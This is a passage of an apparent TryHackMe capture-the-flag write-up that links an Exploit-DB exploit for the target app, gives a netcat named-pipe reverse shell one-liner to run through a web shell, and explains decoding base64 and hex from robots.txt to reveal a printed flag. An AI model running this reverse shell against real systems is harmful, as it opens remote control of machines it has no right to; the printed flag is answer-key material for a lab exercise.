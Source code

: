 ![img](CTF_img/THM_CTFVOL2/RECON_2.png) and ww see the version of that app using expoit in link below

[exploit_link](https://www.exploit-db.com/exploits/50477)

Acces the webshell and using reverse shell escalation using this `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 1234 >/tmp/f` to the web shell

** Easter 1 **

Hint: robots.txt
![img](CTF_img/THM_CTFVOL2/Flg1_1.png)
We have a base64 strings in that robots.txt and follow a buch of hex so we covert first base64 strings to hex format and add up those  follow hex in the robots.txt. Last step convert it to base64 and to text to get the fisrt flag.
![img](CTF_img/THM_CTFVOL2/Flg1_2.png)
Flag is `THM{4u70b07_r0ll_0u7}`
